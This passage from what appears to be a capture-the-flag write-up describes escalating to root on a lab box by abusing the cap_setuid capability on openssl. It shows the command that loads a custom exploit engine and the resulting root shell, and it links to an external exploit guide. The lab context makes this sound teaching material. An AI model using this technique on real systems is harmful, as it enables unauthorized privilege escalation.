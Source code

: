`openssl` gets listed and after searching for that i found an exploit online under this link.
[openssl cap ex](https://chaudhary1337.github.io/p/how-to-openssl-cap_setuid-ep-privesc-exploit/)

following the instructions required to create an engine file which sets the suid bit and executes a shell from within. after doing that i needed to upload the engine file and use it with this command.

```shell
system@vulnnet-endgame:~/Utils$ ./openssl req -engine ../openssl-exploit-engine.so
root@vulnnet-endgame:~/Utils# whoami
root
```

and there is the root flag.

![image](/images/Pasted image 20221109103520.png)

[L0]
